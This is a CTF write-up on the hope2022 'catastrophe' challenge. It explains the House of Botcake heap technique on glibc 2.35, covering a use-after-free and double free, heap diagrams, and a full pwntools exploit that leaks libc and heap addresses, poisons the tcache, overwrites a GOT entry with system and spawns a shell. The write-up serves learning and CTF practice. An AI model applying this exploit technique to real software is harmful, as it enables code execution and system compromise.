

## Overview

Let's explore the House of Botcake technique under glibc 2.35 through the "catastrophe" challenge from hope2022 CTF.

```
64bit
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'.'
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

## Functions

### Menu
```c
void print_menu() {
  puts("--- menu ---");
  puts("1) malloc");
  puts("2) free");
  puts("3) view");
  puts("4) leave");
  puts("------------");
}
```
```c
void op_malloc() {
  puts("Index?");
  uint64_t idx = get_index();
  puts("Size?");
  uint64_t size = get_number();
  if (size < 1 || size > 0x200) {
    puts("Interesting...");
    return;
  }
  chonks[idx] = malloc(size);
  printf("Enter content: ");
  fgets(chonks[idx], size, stdin);
}

void op_free() {
  puts("Index?");
  uint64_t idx = get_index();
  free(chonks[idx]);
}

void op_view() {
  puts("Index?");
  uint64_t idx = get_index();
  puts(chonks[idx]);
}
```

## Vulnerability

The vulnerability lies in `op_free` — after freeing memory, the pointer is not nullified. Since `op_view` does not check whether the chunk has been freed, leaking is trivially easy. Additionally, there is no index validation in `malloc` or `free`, allowing completely arbitrary allocation and deallocation.

### House of Botcake

The core idea behind House of Botcake is to trigger unsorted bin consolidation on freed chunks, and then free one of those consolidated chunks again into the tcache. This results in the same chunk existing in both the tcache and the unsorted bin simultaneously, giving us a UAF primitive to control the fd pointer.

First, to drain the tcache and set up unsorted bin control, we allocate 10 chunks of size 0x80 or larger. `chunk[9]` serves as a wall to prevent consolidation with the top chunk.

```
tcache[0x110]: [6] → [5] → [4] → [3] → [2] → [1] → [0]
                ↑ count = 7 (MAX)

Heap Memory:
┌─────────────┐
│ chunk[0]    │ ← tcache
├─────────────┤
│ chunk[1]    │ ← tcache
├─────────────┤
│ chunk[2]    │ ← tcache
├─────────────┤
│ chunk[3]    │ ← tcache
├─────────────┤
│ chunk[4]    │ ← tcache
├─────────────┤
│ chunk[5]    │ ← tcache
├─────────────┤
│ chunk[6]    │ ← tcache
├─────────────┤
│ chunk[7]    │ (in use)
├─────────────┤
│ chunk[8]    │ (in use)
├─────────────┤
│ chunk[9]    │ (wall)
```

After freeing 7 chunks to fill the tcache, performing `free(8)` → `free(7)` causes chunk 8 and chunk 7 to consolidate into a single 0x220-sized unsorted bin entry.

At this point, we call `malloc(0x100)` to pop one entry from `tcache[0x110]`, making room. Then we free `chunk[8]` again — this time, the 0x110-sized `chunk[8]` enters `tcache[6]`. Now `chunk[8]` exists simultaneously in both the tcache and the unsorted bin (specifically, within the 0x220-sized consolidated region that includes chunk 7).

### After Double Free
```
Heap Memory:
┌─────────────┐
│ chunk[0]    │ tcache
├─────────────┤
│ chunk[1]    │ (in use)
├─────────────┤
│ chunk[2]    │ tcache
├─────────────┤
│ chunk[3]    │ tcache
├─────────────┤
│ chunk[4]    │ tcache
├─────────────┤
│ chunk[5]    │ tcache
├─────────────┤
│ chunk[6]    │ tcache
├─────────────┤
│ chunk[7]    │ unsorted bin [0x220]
│   fd ───────┼──→ main_arena  (unsorted)
|   bk ───────┼──→ main_arena (unsorted)         
│ chunk[8]    │ ← tcache + unsorted bin! (DOUBLE FREE!)
│   fd ───────┼──→ tcache[5]
│   bk ───────┼──→ key
├─────────────┤
│ chunk[9]    │ (wall)
```

In this state, requesting an allocation of size 0x210 will be served from the 0x220-sized unsorted bin entry. This gives us an overlapping write over the region that includes `chunk[8]`, which is still registered in the tcache — allowing us to overwrite its fd pointer.

Leaking is straightforward, so I'll skip the details. After obtaining the necessary addresses, we overwrite `abs@plt.got` and spawn a shell.

## Exploit

```python
from pwn import *

p = process('./catastrophe')
libc=ELF("libc.so.6")
e=ELF("catastrophe")

#context.terminal = ['tmux', 'splitw', '-h']
#context.log_level = 'debug'

def malloc(i,s,d):
    print(i)
    p.sendlineafter(b">",b"1")
    p.sendlineafter(b">",str(i))
    p.sendlineafter(b">",str(s))
    p.sendlineafter(b": ",d)

def free(i):
    p.sendlineafter(b">",b"2")
    p.sendlineafter(b">",str(i))

for i in range(0,7):
    malloc(i,0x90,b'aaaa')

malloc(7,0x90,b'bbbb')
malloc(8,0x90,b'cccc')
malloc(9,0x90,b'wall')

for i in range(3,9):
    free(i)
free(1) #tcache[0x50][7]
free(2) #unsorted 1
free(0) #unsorted 2


#leak libc
p.sendlineafter(">","3")
p.sendlineafter(">","2")
p.recv()
libc_main=u64(p.recv(6)+b'\x00'*2)-0x219ce0
log.info("="*20+hex(libc_main))
abs=libc_main+0x219090

#leak heap
p.sendlineafter(">","3")
p.sendlineafter(">","0")
p.recv()
heap=u64(p.recv(6)+b'\x00'*2)-0x130
heap_1=heap+0xec0

log.info("--libc_main => "+hex(libc_main))
log.info("="*20+str(hex(heap)))
#make 2
for i in range(9):
    malloc(i,0x100,'a')
malloc(9,0x100,'h')

for i in range(7): #tcache[6]
    free(i)

free(8)
free(7)
malloc(1,0x100,'b') #tcache[5]
free(8) #tcache[6]
pay=b'A'*0x108
pay+=p64(0x111)
pay+=p64((abs) ^ (heap_1>>12))
pay+=p64(0)
malloc(4,0x200,pay)

malloc(2,0x100,p64(0)*2)
system=libc_main+libc.sym['system']
log.info(hex(system))
malloc(1,0x100,b'/bin/sh\x00'+p64(system))
p.sendlineafter(">","3")
p.sendlineafter(">","1")
p.interactive()
```

